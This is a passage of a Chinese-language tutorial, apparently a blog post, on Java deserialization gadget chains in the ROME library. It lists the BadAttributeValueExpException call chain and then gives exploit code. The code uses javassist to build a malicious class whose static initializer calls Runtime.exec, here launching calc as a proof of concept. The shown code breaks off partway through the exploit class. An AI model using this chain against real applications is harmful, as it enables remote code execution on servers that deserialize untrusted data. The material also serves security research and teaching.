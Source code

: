 [![](assets/1705886615-63aeab82a66c9cbbd5e01329cdd82c4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124744-0d0564c4-b74f-1.png)  
这里的 key 为 ObjectBean 对象，这样就调用了 ObjectBean 的 hashCode 方法，接下来的链与上一个链一致

## 6\. BadAttributeValueExpException 利用链

### 利用链

```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString()
BadAttributeValueExpException.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class BadAttrExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
```